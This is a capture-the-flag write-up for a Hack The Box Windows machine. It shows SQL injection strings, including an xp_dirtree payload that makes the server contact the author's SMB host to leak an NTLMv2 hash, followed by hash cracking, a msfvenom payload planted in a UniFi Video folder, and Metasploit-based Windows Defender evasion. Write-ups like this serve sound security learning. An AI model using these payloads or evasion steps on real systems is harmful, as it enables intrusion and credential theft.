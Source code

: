 # PORT SCAN
* **80** &#8594; HTTP (IIS 10.0)
* **443** &#8594; HTTPS (IIS 10.0)
* **3389** &#8594; MS-Terminal-Service (RDP)
* **5985** &#8594; WinRM


<br><br><br>

# ENUMERATION & USER FLAG
This machne have a high score on `Real`, good to know! The port 80 is kinda nice but is just a different placeholder for the default IIS service

![4652582917215e29e17c61c0e29a8687.png](img/4652582917215e29e17c61c0e29a8687.png)

Same thing on the HTTPS but the `Common Name` value is pretty cool, a hint for the machine purpose

![a91bac713695e219f24a83610f5702ca.png](img/a91bac713695e219f24a83610f5702ca.png)

Well I run some dirbusting and subdomain discovery and the former found a `/remote` path on the HTTP service

![5996438b1750b638d9545905c0326b74.png](img/5996438b1750b638d9545905c0326b74.png)

I followd the little popup and use HTTPS instead and now we can investigate this interesting interface (note that now we know the Windows Server version, is written on the top)

![834a6356f4593d53d115833aaf7ac9f0.png](img/834a6356f4593d53d115833aaf7ac9f0.png)

[Here](https://powershellisfun.com/2023/09/14/using-windows-powershell-web-access/) I found a good description of what is **<u>Windows PowerShell Web Access</u>**

> Windows PowerShell® Web Access, first introduced in Windows Server® 2012, acts as a Windows PowerShell gateway, providing a web-based Windows PowerShell console that is targeted at a remote computer [...]

Clear this can turn really usefull for us but we need credentials and the Computer Name, pretty bad ah?
Another path was found, `/mvc`

![12673a56f22ecc71e5a610b1ea85765e.png](img/12673a56f22ecc71e5a610b1ea85765e.png)

We have a search feature, if we search for an empty strings the app return **504** items but the magic happens whenI try with the simplest check for SQL injections `' OR 1=1 ;--`

![7848cee50a26b2d3e2cbd504e06b6b0a.png](img/7848cee50a26b2d3e2cbd504e06b6b0a.png)

Gotch'a now we have a way in! Using SQLMAP I know the DBMS is MSSQL (even if seems obvious was worh to spend 2 seconds and be sure about it). I also removed the `--` strings at the end to cause an error page pop up which highlight the hidden gem: a username!

![e8f28f63f04be3645bc5bac8d7d1554f.png](img/e8f28f63f04be3645bc5bac8d7d1554f.png)

I was not able to extract something usefull but there is a thing that we can do and I have did in a different machine but not through a SQL injection, we can abuse `xp_dirtree` to get NTLM2 hash of the user

The endpoint that we can use to the injection is the `/mvc/Product.aspx?ProductSubCategoryId=[term_to_search]` if we inject something like `; EXEC master.sys.xp_dirtree '\\10.10.14.15\LOL' ;--` we should be able to list all the files on our self hosted SMB server

![68354b2749ff34f3ceea80771ea869be.png](img/68354b2749ff34f3ceea80771ea869be.png)

![32093c968d878ace7022a356280bc0a9.png](img/32093c968d878ace7022a356280bc0a9.png)

Good time to unleash the most powerfull cat out there, `hashcat`

![6cda58f0f0c2423e5d1a2a3cc3a25416.png](img/6cda58f0f0c2423e5d1a2a3cc3a25416.png)

Gotch'a, we can login through WinRM and grab the user flag

<br><br><br>

# PRIVILEGE ESCALATION

When login occurs we spawn in the `Documents` folder where inside we have a clue of the privilege escalation

![e0c05991d68142033b53ef99c0535e56.png](img/e0c05991d68142033b53ef99c0535e56.png)

Unifi video, cool. The machine has been created in 2018 so I will check for some known vulnerabilities from that year and down

![c2dcf716a3fe6634229f4aa40fe7c562.png](img/c2dcf716a3fe6634229f4aa40fe7c562.png)

We have something interesting here, first thing first we have the ability to append data inside the unifi directory

![07b762645145c20fbfb8e1a4e0828656.png](img/07b762645145c20fbfb8e1a4e0828656.png)

When the application start or stop execute the `taskkill.exe` file inside the directory where unifivideo is installed as root but that file doesn't exist so we can create it for it with **msfvenom** and copy that with SMB.
Sadly I am having some issues in the upload phase

![491f3c71c6c624d1b69d3bf3c8841e31.png](img/491f3c71c6c624d1b69d3bf3c8841e31.png)

With some research this is a common error when Windows Defender kicks in, I also tried with `wget` but the file is deleted after a second, cool we have to defeat the golem here!
I tried to use some encryption module on the payload creation like `XOR` and `Shikata ga nai` but nothing, I had some hopes on the latter but no way Defender is doing the job.

I have found a metasploit module which can help me to bypass defender, the [evasion/windows/windows_defender_exe](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/evasion/windows/windows_defender_exe.md). Maybe this is not a cool hacker way to solve this and let me look like a script kiddie but it does his job. Use a RC4 encryption and a costum compilier to hide from static analysis plus anti-emulation for dynamic analysis

![7d1959060c38f6fb8e617909a3872f1e.png](img/7d1959060c38f6fb8e617909a3872f1e.png)

Cool, I was able to upload and mantain the executable so at least for the  static analysis Defender is not able to classify the file as malicious. I can't be 100% sure it works until I try to trigger it so is time to start/stop/restart the service! Things like `Get-Process` are not permitted to use, we have too much low priv for that apparently so I need to enumerate directly the `Registry`.

One way to do this is to check the [Installer Properties](https://learn.microsoft.com/en-us/windows/win32/msi/uninstall-registry-key) with `cmd /c REG QUERY HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall`. With that we found the **Unifi Video** svc

![7508c5bbd2cf5ff8501d75cfaec9484f.png](img/7508c5bbd2cf5ff8501d75cfaec9484f.png)

Another way to enumerate that is through another registry tree, the one that store information about each service on the system: `HKLM:\system\currentcontrolset\services`. We can `cd` inside the registry and `ls`

![b1e6093e12e8c488674f7c605d0a5142.png](img/b1e6093e12e8c488674f7c605d0a5142.png)

We have the info we need now we can use `Start-Service "Ubiquiti UniFi Video"`, finger cross and we have the meterpeter session. The evasion module worked smoothly! 

![f2afff7c489fe82673788dcc2211ddbb.png](img/f2afff7c489fe82673788dcc2211ddbb.png)

<br><br>

> I have learned a lot here, the old trick with `xp_dirtree` is always there to save the day. Finally I get my hands dirty with some Evasion after I pwned the machine I look around for other HTB players solution and there is a lot involeved so I took my time to go through them looking new way to bypass the Golem. Cool Stuff!
